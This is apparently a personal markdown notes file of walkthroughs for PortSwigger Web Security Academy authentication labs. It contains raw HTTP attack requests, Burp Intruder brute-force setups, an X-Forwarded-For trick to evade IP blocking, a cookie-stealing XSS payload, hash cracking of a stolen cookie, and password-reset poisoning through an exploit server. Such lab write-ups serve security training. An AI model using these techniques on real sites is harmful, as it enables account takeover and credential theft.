

# Authentication vulnerabilities

## Username enumeration via different responses

Use Intruder with username and pw as sniper targets

## 2FA simple bypass

1. Login as `wiener:peter`
1. Use portswigger e-mail to login with 2FA
1. capture e-mail change request into repeater
1. logout
1. login as `carlos:montoya`
1. copy session token from the new session
1. insert session token in the prev. captured request to change the e-mail
1. insert wrong code and login again as carlos
1. recieve 2FA code via e-mail
1. ???
1. Profit

##  Password reset broken logic

The `temp-forgot-password` parameter is not checked, so we can just send a
request in carlos' name

``` 
POST /forgot-password/?temp-forgot-password-token HTTP/2
Host: 0a3c00e903fa9e9980fe764f00c60058.web-security-academy.net
Cookie: session=ET1xcusj0lhDr3wWMSd1qCOcQLItAXnW
[...]

temp-forgot-password-token&username=carlos&new-password-1=bla&new-password-2=bla
```

## Username enumeration via response timing

- Login takes longer for valid users.
- there is a Brute force prevention in place.
  - `X-Forwarded-For:§1§` header can be used to evade this.

Use Intruder with Pitchfork:

- **Parameter 1 `X-Forwarded-For:§1§`**: Numbers 1-100
- **Parameter 2 `Username=§2§`**: Username list

We find that `ec2-user` is valid. Now we can do the same again with the PW list.

Final Payload:

```
POST /login HTTP/2
Host: 0a7e00bc04419db78499a2da00be0045.web-security-academy.net
Cookie: session=4MtRH2xLQGE0NrFKaQvHcOVy38p2Fdx0
X-Forwarded-For:§1§

username=ec2-user&password=§dadadaaaaaaaaaaaaaaaaaaaaaa1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111a
```

## Broken brute-force protection, IP block

The flaw in this Lab is that the request counter gets reset after each
successful login. --> We can test one combination and then login with the
provided credentials.

Prepare two lists

- **Users:** `carlos` and `wiener` turn by turn (100x)
- **Passwords:** `entry from PW list` and `peter` switching each time.

How to do that quickly in vim:

```
# Userlist
100i carlos<CR>wiener<ESC>
:%y+

# Within PW list
gg
qq
o peter<ESC>j
q
200@q
:%y+
```

In the Intruder Settings set the max concurrent Payloads to 1 and a delay of  
`300 ms`.

## Username enumeration via account lock

1. Try to brute force Usernames 3 times
1. One response has a longer length.
  - Error Message: `You have made too many incorrect login attempts. Please try again in 1 minute(s).`
  - --> We have our user
1. Try PW Brute force using `X-Forwarded-For` Header

```
X-Forwarded-For: §1§

username=accounting&password=§bla§
```

It seems that the lock has no effect if the real credentials are supplied.
The answer with the smallest response contains the valid credentials.



## 2FA broken logic

Brute force in order:

1. PW
2. 2FA code (using the `session` and `verify` cookie values from carlos)

```
mfa-code=§1111§
```

Intruder > Sniper: Set payload from 0000 to 9999 with 1 as step.


## Offline password cracking

Place XSS in comments of posts

```
/?'+document.cookie;>
```

Look for an answer from carlos:

```
GET /?secret=xHtfxrM68cuhFuEY30ETrSrX0eAp9hrR;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1

# stay loggen loggen in decode:
carlos:26323c16d5f4dabff3bb136f2460a943
```

Use <https://crackstation.net/> to check the hash.  --> `onceuponatime` (md5)


## Password reset poisoning via middleware

In this lab we can manipulate the `X-Forwarded-Host` header to generate password 
reset links for a host we control.

1. Use Repeater for the `POST /forgot-password` request
1. Set username to carlos
1. Add `X-Forwarded-Host: exploit-0a2f00cd041f7e3f823151b001690060.exploit-server.net/exploit` Header
1. Access the server log:
        `GET /exploit/forgot-password?temp-forgot-password-token=SOEFGdL2dqdeCXu0xrqN2ndOQwXSGwnp HTTP/1.1`

## Password brute-force via password change

